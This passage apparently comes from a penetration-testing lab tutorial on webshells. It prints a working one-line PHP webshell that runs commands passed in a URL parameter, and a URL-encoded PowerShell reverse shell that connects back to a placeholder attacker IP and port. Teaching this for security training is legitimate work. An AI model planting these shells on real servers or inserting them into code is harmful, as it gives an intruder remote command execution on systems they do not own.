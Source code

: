 There are times when we encounter websites that allow us an opportunity to upload, in some way or another, an executable file. Ideally, we would use this opportunity to upload code that would activate a reverse or bind shell, but sometimes this is not possible. In these cases, we would instead upload a webshell. See the Upload Vulnerabilities Room for a more extensive look at this concept.

**"Webshell"** is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either through an HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully-fledged reverse or bind shell.

As PHP is still the most common server-side scripting language, let's have a look at some simple code for this.

In a very basic one-line format:

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

This will take a GET parameter in the URL and execute it on the system with `shell_exec()`. Essentially, what this means is that any commands we enter in the URL after `?cmd=` will be executed on the system -- be it Windows or Linux. The `<pre>` elements are to ensure that the results are formatted correctly on the page.

Let's see this in action:

Notice that when navigating the shell, we used a GET parameter `cmd` with the command `ifconfig`, which correctly returned the network information of the box. In other words, by entering the `ifconfig` command (used to check the network interfaces on a Linux target) into the URL of our shell, it was executed on the system, with the results returned to us. This would work for any other command we chose to use (e.g. `whoami`, `hostname`, `arch`, etc).

As mentioned previously, there are a variety of webshells available on Kali by default at `/usr/share/webshells` -- including the infamous PentestMonkey `php-reverse-shell` -- a full reverse shell written in PHP. Note that most generic, language-specific (e.g. PHP) reverse shells are written for Unix-based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using `msfvenom` to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the `cmd` argument:

```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards the end of the top line) will still need to be changed in the above code.